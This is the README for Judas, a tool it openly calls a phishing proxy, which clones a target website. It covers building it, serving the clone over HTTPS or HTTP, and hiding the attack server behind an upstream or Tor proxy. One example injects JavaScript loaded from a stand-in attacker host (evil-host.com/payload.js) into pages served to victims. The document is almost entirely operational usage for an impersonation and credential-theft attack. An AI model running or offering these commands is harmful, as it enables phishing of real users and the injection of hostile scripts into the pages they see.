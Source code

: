Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Building
--------
To build Judas, simply ```go build -o judas proxy.go```

Usage
-----
The target ```--target``` flag is required.
By default, Judas requires a path to a SSL certificate (```--cert```) and a SSL private key (```--private-key```).
If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key
```

```
./judas --target https://target-url.com --insecure
```

It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```

Known Bugs
----------
+ Javascript injection fails when the target server compresses responses.